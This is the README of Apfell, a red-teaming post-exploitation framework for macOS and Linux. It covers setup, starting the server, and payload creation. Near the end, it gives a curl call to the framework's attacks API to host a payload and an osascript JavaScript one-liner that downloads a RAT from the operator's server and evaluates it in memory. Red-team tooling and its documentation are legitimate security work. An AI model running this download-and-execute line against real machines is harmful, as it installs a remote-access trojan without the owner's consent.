 # Apfell
A macOS, post-exploit, red teaming framework built with python3 and JavaScript. It's designed to provide a collaborative and user friendly interface for operators, managers, and reporting throughout mac and linux based red teaming. This is a work-in-progress as I have free time, so please bear with me.

## Details
Check out my [blog post](https://its-a-feature.github.io/posts/2018/07/bare-bones-apfell-server-code-release/) on the initial release of the framework and what the bare bones content can do.

## Installation

- Get the code from this github:
```bash
git clone https://github.com/its-a-feature/Apfell
```
- Install and setup the requirements (Note: This only runs on Linux right now):
```bash
# Install postgres and pip3 install the requirements
cd Apfell && ./setup.sh && cd ..
```
- Configure the installation in app/\_\_init\_\_.py:
```bash
# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'postgres'
db_pass = 'postgres'
server_ip = '192.168.0.119'
```
- Optionally configure the IP and port for the server to listen on in Server.py:
```bash
if __name__ == "__main__":
    asyncio.set_event_loop(dbloop)
    server = apfell.create_server(host='0.0.0.0', port=80) # edit this line
```
## Usage

- Start the server:
```bash
python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ http://0.0.0.0:80
```
By default, the server will bind to 0.0.0.0 on port 80. This is an alias meaning that it will be listening on all IPv4 addresses on the machine. You don't actually browse to http://0.0.0.0:80 in your browser. Instead, you'll browse to either http://localhost:80 if you're on the same machine that's running the server, or you can browse to any of the IPv4 addresses on the machine that's running the server. You could also browse to the IP address you specified in `server_ip = '192.168.0.119'` in the installation section.
- Browse to the server with any modern web browser  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Welcome.JPG)

- Create a new user:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Register.JPG)

- Create a new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG)

- Use the attacks_api to host the new file (this will eventually get updated with a GUI):  
```bash
# assuming we created a payload in our local '/tmp' directory
curl -X POST'{"port":8080, "directory":"/tmp"}' http://192.168.0.119/api/v1.0/attacks/host_file
```
This will start a python simple web server in the `/tmp` directory on port `8080`.

- Pull down and execute payload in memory:
```bash
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));" 
```
- Interact with the new RAT:
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG)

### In-Server Help
Once you've logged into Apfell, you can access some additional help. 
- CommandLines - provides information about how to interact with the RESTful interface via terminal and Curl
- Documentation - will eventually provide a more thorough manual of how Apfell is organized, how to extend it, how logging works, and how to interact with the dashboards
- apfell-jxa help - provides help on the command lines that can be sent to the apfell-jxa RAT, how they work, and their parameters